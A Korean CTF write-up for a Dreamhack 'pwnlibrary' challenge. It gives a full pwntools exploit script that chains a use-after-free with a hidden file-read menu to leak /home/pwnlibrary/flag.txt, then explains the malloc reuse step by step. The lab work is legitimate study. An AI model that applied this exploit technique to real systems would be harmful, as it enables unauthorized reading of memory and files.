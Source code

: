 # Payload
```python
from pwn import *

# context.log_level = 'debug'
p = remote(host = "host3.dreamhack.games", port=21401)

# borrow a book, index 1
p.recvuntil(b'[+] Select menu : ')
payload = b'1' # borrow a book
p.sendline(payload)
p.recvuntil(b'[+] what book do you want to borrow? : ')
payload = b'1' # theori theory
p.sendline(payload)

# return book, index 3
p.recvuntil(b'[+] Select menu : ')
payload = b'3'
p.sendline(payload)
p.recvuntil(b'[*] lastest book returned!')

# steal book, code 275, path : /home/pwnlibrary/flag.txt
p.recvuntil(b'[+] Select menu : ')
payload = b'275'
p.sendline(payload)
p.recvuntil(b'[+] whatever, where is the book? : ')
payload = b'/home/pwnlibrary/flag.txt'
p.sendline(payload)
p.recvuntil(b'[*] how many pages?(MAX 400) : ')
p.sendline(b'256')
p.recvuntil(b'[*] Oops.. cops take your book..')

# read book, use after free 
p.recvuntil(b'[+] Select menu : ')
payload = b'2'
p.sendline(payload)
payload = b'0'
p.sendline(payload)

p.interactive()
```
# 검색 키워드
- Use After Free
- (기능이지만) 임의 파일 읽기
# 해설
## 배경지식
- Use After Free
	- free만 해주면 해당 메모리는 재사용이 가능할 지 몰라도
	- 해당 위치를 가리키던 포인터 변수까지 null로 초기화를 해 줘야 UAF 취약점에 노출되지 않을 수 있다.
- malloc 특성
	- 메모리 할당을 할 때, 예를 들어 0x200 만큼의 메모리가 할당되었다가 반환되고 나서, 다시 0x200만큼 할당을 하면, 새로 할당된 메모리 주소는 이전에 할당되었던 메모리 주소와 일치한다.
	- 할당받으려는 메모리 사이즈가 일치해야 같은 메모리 주소를 받아올 수 있다.
## 코드분석
- 핵심 코드
	- return_book 함수
		- 책을 반납할 때 listbook\[인덱스].content 포인터 주소에 대해 free를 수행하지만, 포인터가 가지고 있는 주소는 초기화 하지 않는다.
			- -> UAF 취약점 발현
	- steal_book 함수
		- 프로그램 실행 시 표시되지는 않지만, 코드상에 있는 275(0x113)를 입력하면 책 훔치기 메뉴를 사용할 수 있다.
		- 최대 400바이트(0x190)까지, 입력한 경로에 있는 파일을 읽어들여 secretbook.content에 내용을 복사한다.
		- 다만 값을 복사하고 내용을 알려주지는 않기 때문에 복사된 곳의 영역을 읽을 방법을 찾아야 한다.
## 익스플로잇 과정
- 우선 책을 한 권 빌린다.
	- 이 때 1번 책, `theori theory` 책을 빌려야 한다.
	- 나머지 2, 3번 책으로는 익스플로잇 할 수 없다.
	- 왜냐하면 borrow_book 함수에서 2번과 3번을 빌릴 때, malloc으로 메모리를 할당받는데, 각각 할당받는 사이즈가 0x200, 0x300으로, steal_book 함수에서 pages 변수에 입력한 만큼 메모리를 할당받는데, 이것은 112번째 줄에서 0x190보다 작도록 강제되기 때문이다. 따라서 이보다 작은 책은 1번만 해당한다.
- 그리고 책을 반납한다.
	- 그러면 0번 인덱스의 책 제목은 returned로 변경되고, contents를 가리키던 위치의 메모리는 free 되지만, 포인터 변수의 주소 값은 그대로 유지되기에, 해당 포인터를 참조하게 되면 free된 메모리라고 해도 내용을 읽어 올 수 있다.
- 이제 책을 훔친다.
	- 메뉴에서 275를 입력한다.
	- 경로를 입력해야 하는데, 문제 지문에서 나와 있듯이, 플래그 경로는 `/home/pwnlibrary/flag.txt` 이다. 이 경로를 입력해 준다.
	- 읽어올 페이지를 설정해야 한다.
		- 이것은 free된 메모리와 동일해야 한다.
		- 약간 작아도 되긴 하던데.. 
		- 암튼 256으로 해 주자.
		- 그러면 메모리 상에 해당 플래그 내용이 fopen 함수를 통해 복사가 된다.
		- 다만 내용을 보여주지는 않는다.
		- 그런데 이때 내용이 복사된 메모리 주소는, 위에서 책을 빌렸을 때 content의 영역과 동일하다. 그리고 이 주소는 아직 0번 인덱스의 책을 읽어 오는 것으로 접근이 가능하다.
- 반납된 책을 아무튼 읽어 본다.
	- 메뉴에서 read book, 2번을 고르고,
	- 0번 인덱스의 책 내용을 본다.
	- free 된 메모리이지만 포인터 변수가 가리키는 값은 변하지 않았기 때문에, 플래그가 복사된 메모리 영역을 읽어 올 수 있다.
- 익스플로잇 실행 결과![[Pasted image 20241120161232.png]]